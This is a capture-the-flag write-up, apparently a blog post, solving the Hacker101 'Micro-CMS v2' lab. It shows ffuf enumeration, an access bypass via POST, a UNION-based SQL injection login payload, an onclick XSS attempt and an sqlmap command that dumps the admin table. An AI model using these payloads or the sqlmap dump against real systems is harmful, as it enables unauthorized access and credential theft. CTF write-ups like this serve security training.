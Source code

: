 **Challenge link:** https://ctf.hacker101.com/ctf

This is a continuation over the previous `Micro-CMS v1` challenge, so I recommend giving it a shot and a read before continuing with this one.

Alright, so we get to this new challenge and we can click to see what's new on this app relative to the old one.

```
# Micro-CMS Changelog

## Version 2

This version fixed the multitude of security flaws and general functionality bugs that plagued v1. Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20. By default, users need to be an admin to add or edit pages now.
```

I'm pretty sure we will need to play with some authentication (no authorization?), let's see!

Let's enumerate page IDs again:

```sh
$ seq 50 > range.txt

$ ffuf -w range.txt -u https://<subdomain>.ctf.hacker101.com/page/FUZZ
...

2                       [Status: 200, Size: 433, Words: 19, Lines: 16]
1                       [Status: 200, Size: 538, Words: 63, Lines: 15]
3                       [Status: 403, Size: 234, Words: 27, Lines: 5]
```

We have a page with ID `3` that we have never seem before, but this time `/page/edit/3` is behind authentication. A common mistake by developers is only protecting pages that the client can see (GET requests), but nothing prevents users from sending other HTTP verbs to the server.

## Flag 1
So a GET to `/page/edit/3` yields a `403`, does `POST` or `PUT` yields the same HTTP response?

```sh
$ curl -X PUT "https://<subdomain>.ctf.hacker101.com/page/edit/3"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

$ curl -X POST "https://<subdomain>.ctf.hacker101.com/page/edit/3"
^FLAG^...$FLAG$%
```

 `POST` is not protected as gives us our first flag! The interesting part is that `GET /page/3` still yields a `forbidden`, so there might be something else there. With that in mind I started playing with the login feature.

## Flag 2

Going to the `/login`  page and sending a single quote (`'`) as the username yields a server error:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

Setting the username as `abc' OR 1=1;--` bypasses this login check, but causes us to fail on the password clause with: `Invalid password`.

We could go and use something like `sqlmap` to dump the entire database, but let's see our query:

```
SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0
```

What we are doing is:

1. Getting an user based on their username
2. Returning the password from that user

So I went to https://onecompiler.com/mysql and created the following schema to start playing with this query:

```sql
CREATE TABLE admins (username TEXT NOT NULL, password TEXT NOT NULL);
INSERT INTO admins VALUES ('admin', 'hello');
SELECT password FROM admins WHERE username = 'admin';
```

And of course I get the password back, which is `'hello'`. How can we override this? 

Let's try to use a `UNION`:

```sql
SELECT password FROM admins WHERE username = 'admin' UNION SELECT 'potato';
```

This yields two results,  `'hello'` on the first line and `'potato'` on the second. Is this enough? It sure is!

```
username=abc' UNION SELECT 'potato';--&password=potato`
```

We get logged in with the following HTML:

```html
<!doctype html>
<html>
	<head>
		<title>Logged in</title>
	</head>
	<body>
		<h1>Logged In!</h1>
		<a href="home">Go Home</a>
		<script>setTimeout(function() { window.location = 'home'; }, 3000);</script>
		<!-- You got logged in, congrats!  Do you have the real username and password?  If not, might want to do that! -->
	</body>
</html>
```

After that we get redirected to the home page and we see one more page called `Private Page` (the page with `ID 3`).

By clicking on it we get our second flag!

## Flag 3

Now that we have edit powers I tried to cause an XSS in the `button` within the `# Markdown Test` page. To do that you just need to edit that page and add an attribute `onclick="alert(1)"` and save the page. I played a bunch with it thinking that an admin would see that page and we would be able to get their cookie through XSS, but that was a dead end.

Eventually I got back to the old HTML from `Flag 2`:

```
<!-- You got logged in, congrats!  Do you have the real username and password?  If not, might want to do that! -->
```

This prompted me to dump the database using `sqlmap` since I have no idea what the existing username actually is. Here's what I did:

```sh
$ sqlmap -u https://<subdomain>.ctf.hacker101.com/login --data "username=abc&password=xyz" -p username --dbms=mysql --dump
```

* `-p` is used to specify which parameter `sqlmap` should test.

We end up getting:

```
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | stefany  | hattie   |
+----+----------+----------+
```

And after login in with these credentials we get our last flag!

This was an interesting challenge, the lack of auth on the `POST` endpoint is realistic and easily missed if you are not using something that is secure by default. The SQLi is a common theme in CTFs, but always a fun thing to exploit.

Thanks for reading and I will see you in our next post!